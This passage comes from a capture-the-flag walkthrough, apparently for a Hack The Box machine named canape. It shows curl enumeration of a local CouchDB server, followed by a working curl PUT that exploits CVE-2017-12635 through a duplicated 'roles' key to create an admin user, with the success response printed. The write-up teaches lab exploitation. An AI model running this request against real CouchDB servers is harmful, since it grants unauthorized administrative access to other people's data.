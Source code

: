 We can list ids in a database at the `/[database name]/_all_docs` path. To get an individual document, we visit `/[database name]/id`

```

www-data@canape:/var/www/git$ curl http://localhost:5984/simpsons/_all_docs
{"total_rows":7,"offset":0,"rows":[
{"id":"f0042ac3dc4951b51f056467a1000dd9","key":"f0042ac3dc4951b51f056467a1000dd9","value":{"rev":"1-fbdd816a5b0db0f30cf1fc38e1a37329"}},
{"id":"f53679a526a868d44172c83a61000d86","key":"f53679a526a868d44172c83a61000d86","value":{"rev":"1-7b8ec9e1c3e29b2a826e3d14ea122f6e"}},
{"id":"f53679a526a868d44172c83a6100183d","key":"f53679a526a868d44172c83a6100183d","value":{"rev":"1-e522ebc6aca87013a89dd4b37b762bd3"}},
{"id":"f53679a526a868d44172c83a61002980","key":"f53679a526a868d44172c83a61002980","value":{"rev":"1-3bec18e3b8b2c41797ea9d61a01c7cdc"}},
{"id":"f53679a526a868d44172c83a61003068","key":"f53679a526a868d44172c83a61003068","value":{"rev":"1-3d2f7da6bd52442e4598f25cc2e84540"}},
{"id":"f53679a526a868d44172c83a61003a2a","key":"f53679a526a868d44172c83a61003a2a","value":{"rev":"1-4446bfc0826ed3d81c9115e450844fb4"}},
{"id":"f53679a526a868d44172c83a6100451b","key":"f53679a526a868d44172c83a6100451b","value":{"rev":"1-3f6141f3aba11da1d65ff0c13fe6fd39"}}
]}

www-data@canape:/var/www/git$ curl http://localhost:5984/simpsons/f0042ac3dc4951b51f056467a1000dd9
{"_id":"f0042ac3dc4951b51f056467a1000dd9","_rev":"1-fbdd816a5b0db0f30cf1fc38e1a37329","character":"Homer","quote":"Doh!"}

www-data@canape:/var/www/git$ curl http://localhost:5984/passwords
{"error":"unauthorized","reason":"You are not authorized to access this db."}

www-data@canape:/var/www/git$ curl http://localhost:5984/_users
{"db_name":"_users","update_seq":"17-g1AAAAFTeJzLYWBg4MhgTmEQTM4vTc5ISXLIyU9OzMnILy7JAUoxJTIkyf___z8rkQGPoiQFIJlkD1bHiU-dA0hdPFgdMz51CSB19WB1jHjU5bEASYYGIAVUOp8YtQsgavcTo_YARO19_H6HqH0AUQt0L1MWAOGZbz8","sizes":{"file":103818,"external":4447,"active":7737},"purge_seq":0,"other":{"data_size":4447},"doc_del_count":1,"doc_count":9,"disk_size":103818,"disk_format_version":6,"data_size":7737,"compact_running":false,"instance_start_time":"0"}

www-data@canape:/var/www/git$ curl http://localhost:5984/_users/_all_docs
{"error":"unauthorized","reason":"You are not a server admin."}

```

#### DB Privesc

CVE-2017-12635 is a way for non-authenticated users to get an admin access in couchdb by taking advantage of how Javascript and Erlang json parsers handle duplicate objects.
Reading on CVE-2017-12635:
- https://justi.cz/security/2017/11/14/couchdb-rce-npm.html
- https://github.com/vulhub/vulhub/tree/master/couchdb/CVE-2017-12635

So, with CVE-2017-12635, to add an admin user, we just need to use an HTTP PUT:

```

www-data@canape:/var/www/git$ curl -X PUT -d '{"type":"user","name":"0xdf","roles":["_admin"],"roles":[],"password":"df"}' localhost:5984/_users/org.couchdb.user:0xdf -H "Content-Type:application/json"
{"ok":true,"id":"org.couchdb.user:0xdf","rev":"1-72477c12e81d377e933683b8b73f9a86"}

```
